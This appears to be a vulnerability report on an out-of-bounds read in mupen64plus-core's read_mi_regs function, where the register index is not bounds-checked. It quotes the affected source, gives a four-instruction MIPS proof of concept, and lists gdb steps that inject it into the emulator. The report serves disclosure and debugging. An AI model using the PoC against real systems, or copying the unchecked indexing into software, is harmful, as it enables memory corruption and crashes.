

### BUG2: mi_reg overflow

#### Vulnerability Analysis

```c
// https://github.com/mupen64plus/mupen64plus-core/blob/2.6.0/src/device/rcp/mi/mi_controller.c#L81
void read_mi_regs(void* opaque, uint32_t address, uint32_t* value)
{
    struct mi_controller* mi = (struct mi_controller*)opaque;
    uint32_t reg = mi_reg(address);

    *value = mi->regs[reg];
}

// https://github.com/mupen64plus/mupen64plus-core/blob/2.6.0/src/device/rcp/mi/mi_controller.h#L58
static osal_inline uint32_t mi_reg(uint32_t address)
{
    return (address & 0xffff) >> 2;
}

// https://github.com/mupen64plus/mupen64plus-core/blob/2.6.0/src/device/rcp/mi/mi_controller.h#L31
enum mi_registers
{
    MI_INIT_MODE_REG,
    MI_VERSION_REG,
    MI_INTR_REG,
    MI_INTR_MASK_REG,
    MI_REGS_COUNT     = 4
};

// https://github.com/mupen64plus/mupen64plus-core/blob/2.6.0/src/device/rcp/mi/mi_controller.h#L51
struct mi_controller
{
    uint32_t regs[MI_REGS_COUNT];

    struct r4300_core* r4300;
};
```


The vulnerability arises in the read_mi_regs function when accessing mi->regs[reg]. The reg index is calculated using the mi_reg function, which performs the following operation:

```
return (address & 0xffff) >> 2;
```

This operation ensures that reg is derived from the lower 16 bits of address, and then shifted right by 2 bits. However, the mi->regs array only has 4 elements (indices 0 to 3), as defined by MI_REGS_COUNT.

The issue is that the mi_reg function does not enforce any bounds checking on the calculated reg index. If the address parameter results in a reg value that is greater than or equal to MI_REGS_COUNT, the code will attempt to access an out-of-bounds element in the mi->regs array. This can lead to undefined behavior, including memory corruption, crashes, or security vulnerabilities.


#### Reproduction

- Poc.asm

这里我提供的是objdump反汇编的结果。

```asm
0000000000000000 <_start>:
   0:   3c048430        lui     a0,0x8430
   4:   348403fc        ori     a0,a0,0x3fc
   8:   8c850000        lw      a1,0(a0)
   c:   00000000        nop
```

首先编译又调试符号的mupen64plus，使用gdb去调试该程序。其中我们加载了m64p_test_rom.v64 ROM，但是在程序入口写入poc的汇编。

```   

$ gdb -q -nh \
  -ex 'set breakpoint pending on' \
  -ex 'break read_mi_regs' \
  --args mupen64plus --emumode 0 --debug ./m64p_test_rom.v64
(gdb) run
...
PC at 0xA4000040.
(dbg) write 0xA4000040 w 0x3c048430
(dbg) write 0xA4000044 w 0x348403fc
(dbg) write 0xA4000048 w 0x8c850000
(dbg) run
(gdb) layout src
```

